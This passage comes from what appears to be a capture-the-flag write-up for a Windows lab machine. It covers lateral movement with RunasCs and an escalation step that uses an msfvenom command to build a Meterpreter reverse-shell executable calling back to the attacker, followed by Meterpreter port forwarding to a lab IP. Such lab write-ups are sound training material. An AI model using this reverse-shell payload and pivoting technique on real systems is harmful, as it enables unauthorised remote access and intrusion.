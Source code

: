  <img src="images/shell_web_account.png" />
</p>

I don't have the ability to access the flag so I do lateral movement via [RunasCS](https://github.com/antonioCoco/RunasCs).

<p align="center">
  <img src="images/tshark_shell.png" />
</p>

In *C:\Users\tstark\Desktop* there is the user flag.

## 4. User to ROOT

To have better management of the shell, I used the [metasploit](https://www.metasploit.com/) framework first using msfvenom to create the exe 

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell.exe`

and then msfconsole. Seeing the active services via netstat, we notice a service on port 8083 so we portforward through the command `portfwd add -l 8083 -p 8083 -r 10.129.228.200`.

<p align="center">